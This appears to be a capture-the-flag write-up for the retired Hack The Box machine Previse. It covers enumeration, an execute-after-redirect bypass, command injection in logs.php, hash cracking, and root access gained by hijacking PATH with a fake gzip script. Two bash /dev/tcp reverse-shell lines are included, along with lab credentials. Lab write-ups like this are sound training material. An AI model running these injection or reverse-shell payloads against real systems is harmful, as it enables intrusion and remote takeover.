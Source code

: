 # Previse

This is the write-up for the box Previse that got retired at the 8th January 2022.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.104    previse.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/previse.nmap 10.10.11.104
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
|_  256 33c189ea5973b1788438a421100c91d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website forwards to _login.php_ and there is a login field:

![Login for file storage](previse_web-1.png)

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.11.104/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds several directories, but all of them forward to _login.php_:
- _index.php_
- _download.php_
- _files.php_
- _accounts.php_
- _config.php_
- _logs.php_

All these locations have different response sizes, which means that the content is loaded and then forwarded.
This vulnerability is called **Execute After Redirect (EAR)** and can be used to access functions that should not be seen.

By forwarding the requests to a proxy like **Burpsuite**, the other directories can be further analyzed.
When changing the response from _"302 Found"_ to _"200 OK"_, it will forward the data from the other directories to our browser:

![Forwarding to accounts.php](previse_web-2.png)

In _accounts.php_ it is possible to create a user account that can be used to login to the website.
After login, the menu _Files_ has one uploaded file called _siteBackup.zip_ that can be downloaded:
```
unzip siteBackup.zip
```

Searching PHP files for all fields with user input:
```
grep '$_' * | grep -v '_SERVER\|_SESSION'
```

The file _logs.php_ uses an _exec_ function to execute system commands:
```
logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

When browsing to _logs.php_, it downloads a file without any useful information.
The file _file_logs.php_ is referencing this file and can be found in the menu as _Log Data_:
```
grep logs.php *
```
```
file_logs.php: <form action="logs.php" method="post">
```

![Request log data](previse_web-3.png)

Forwarding the request to **Burpsuite**:
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
(...)

delim=comma
```

The parameter _"delim"_ is executed by a Python script and it should be possible to inject commands after a semicolon:
```
delim=comma;sleep 2
```

The request takes more than two seconds which means that command execution is successful.
Using the vulnerability to gain a reverse shell:
```
delim=comma; bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1'
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

The file _config.php_ has credentials for the database:
```
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

Connecting to the database:
```
mysql -u root -p
```

Dumping the contents of the database:
```
mysql> show databases;

mysql> use previse;
mysql> show tables;

mysql> select * from accounts;
```
```
m4lwhere  | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```

There is a hash of the user _m4lwhere_ that also exists in the _/etc/passwd_ file.
Trying to crack the password with **Hashcat**:
```
hashcat -m 500 previse_sql.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password can be used to SSH into the box:
```
ssh m4lwhere@10.10.11.104

m4lwhere@10.10.11.104's password: ilovecody112235!
```

### Privilege Escalation to root

With `sudo -l` it is possible to check the root privileges of the user:
```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

The user _m4lwhere_ can run a bash script as root that uses `gzip` for backup.
The script itself cannot be abused to escalate privileges, but the `sudo` command did not show a _secure_path_.

This means that it is possible to create our own **gzip** executable in a path directory that has priority and it will be executed when running the script.

Adding the home directory to the **PATH environment variable**:
```
export PATH=/home/m4lwhere:$PATH
```

Creating a bash script with the name _gzip_ into the directory:
```bash
#!/bin/bash

echo "Here is a root shell"
bash -i >& /dev/tcp/10.10.14.3/9002 0>&1
```

Making the script executable:
```
chmod +x gzip
```

Executing the _access_backup.sh_ bash script with `sudo`:
```
sudo /opt/scripts/access_backup.sh
```

After executing the script, the listener on my IP and port 9002 starts a reverse shell as root!
